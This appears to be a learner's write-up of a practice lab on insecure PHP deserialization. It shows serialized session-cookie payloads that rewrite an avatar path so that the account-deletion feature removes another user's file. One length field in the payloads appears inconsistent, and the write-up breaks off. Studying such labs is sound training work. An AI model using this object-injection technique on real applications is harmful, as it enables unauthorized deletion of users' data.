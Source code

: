 # Practitioner Lab 99: Using application functionality to exploit insecure deserialization

---

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

```
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";i:0;s:11:"avatar_link";s:19:"users/carlos/morale.txt";}
```

In my first attempt I try to delete the account of the user which would then also delete the file.

on my next attemp if this doesn’t work then I will try to delete my account but at the same time delete their file.

![Untitled](Practitioner%20Lab%2099%20Using%20application%20functionalit%209f6a8289baa34317a0ad562a3cb911dc/Untitled.png)

It doesn’t let me change the token to carlos token to delete his account completely so I will have to use my account 

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"eofa3gzwj18nbchzapud14ygfsmor3yt";s:11:"avatar_link";s:23:"users/carlos/morale.txt";}
```

I changed the path of the avatar link to what might be the path of the file that carlos has.

This payload did not work because the file was not part of the avatar.

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"eofa3gzwj18nbchzapud14ygfsmor3yt";s:11:"avatar_link";s:10:"morale.txt";}
```

After reusing the following payload but changing the file path I was able to do it. 

**I found that I could reuse the same account even if it was already deleted.**

Another solution is this.